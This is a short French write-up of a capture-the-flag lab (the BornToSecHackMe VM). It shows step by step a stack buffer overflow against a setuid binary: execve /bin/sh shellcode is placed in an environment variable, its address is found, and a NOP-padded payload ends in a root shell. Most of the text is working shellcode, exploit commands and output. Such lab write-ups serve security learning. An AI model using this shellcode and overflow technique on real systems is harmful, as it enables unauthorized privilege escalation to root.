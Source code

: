 # Writeup4


L'objectif est d'executer un shellcode permettant d'ouvrir un terminal avec les privileges root.

```bash
zaz@BornToSecHackMe:~$ export OPEN_TERMINAL=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
zaz@BornToSecHackMe:~$ vim script.c

```

On fait un petit script pour .

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc == 2)
	{
		char* ptr = getenv(argv[1]);
		printf("%p\n", ptr);
	}
 return (0);
}
```

Puis on execute le tout avec un buffer overflow.

```bash
zaz@BornToSecHackMe:~$ gcc
.bash_history  .bashrc        exploit_me     .profile       .viminfo
.bash_logout   .cache/        mail/          script.c
zaz@BornToSecHackMe:~$ gcc
.bash_history  .bashrc        exploit_me     .profile       .viminfo
.bash_logout   .cache/        mail/          script.c
zaz@BornToSecHackMe:~$ gcc script.c
zaz@BornToSecHackMe:~$ ./a.out OPEN_TERMINAL
0xbffffe60
```
0xbffffe60 -> "\x60\xfe\xff\xbf"

``` bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\x60\xfe\xff\xbf"')
��������������������������������������������������������������������������������������������������������������������������������������������`���
# id
uid=0(root) gid=0(root) groups=0(root),1005(zaz)
# whoami
root
```

Nous voila root

